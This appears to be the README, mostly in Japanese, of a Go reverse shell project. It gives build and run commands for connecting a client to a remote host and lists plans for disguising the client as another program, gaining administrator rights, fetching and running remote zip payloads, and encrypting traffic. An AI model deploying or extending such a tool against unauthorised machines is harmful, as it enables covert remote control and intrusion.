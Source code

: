 # GoReverSH
![ソースコードサイズ](https://img.shields.io/github/repo-size/geniusmaaakun/GoReverSH)
![言語](https://img.shields.io/github/languages/top/geniusmaaakun/GoReverSH)
![ライセンス](https://img.shields.io/github/license/geniusmaaakun/GoReverSH)


Rogo画像

# other 
en@ble@ny

# 詳細
This is Golang ReverseShell


# 使い方
configにホストとポート指定

## IOS
make build
## Windows
make build_win

## Server
./goreversh_server
## Client
./goreversh_client -host "host" -port "port"


実行画面の画像


## Test
make test


# TODO
- [ ] makefile
変数　ビルドファイル名など

- [ ] ReadMe

- [ ] color

- [ ] clean
    ファイル全削除


- [ ] upload　土日
    dir対応
    downloadを逆にする。
    クライアント側もオブザーバーパターンにする方がいい
    outをデコード　

- [ ] upload
特定のUrlのzipダウンロード、解答するコードを送りつけて実行するプログラム開発
もしくはDirectoryの場合は、zipを送りつけて解凍


- [ ] ダウンロード
    サイズ、パーミッション

- [ ] 出力ディレクトリ変更コマンド


- [ ] 別プログラムに偽装　バッチファイルなど
管理権限


- [ ] 暗号化
TLS -> AES共通鍵


- [ ] クライアントテストコード 
計画して一つずつ
connモックを使って読み込みするRead


- [ ] ロゴとアスキーアート

# 未実装
### Test
TestWaitNotice
TestClist
Cert

### 関数
get hostname
get currentuser


## その他
ゴルーチンリークを注意

build op make　でmainの変数に代入

操作ログを残す
logfile
出力をsetOutputで書き出し


ダウンロードなどは、コネクション二つ貼ってやる方法もあり？
制御コマンド用と通信用


暗号化
base64でキーを埋め込み　RSA AESで暗号化
暗号文.共通鍵をサーバー側の秘密鍵で暗号化
クライアントは、公開鍵を受け取り複合化する


TLSを使う？
実際は証明書を発行しないので、独自に暗号化する必要がある
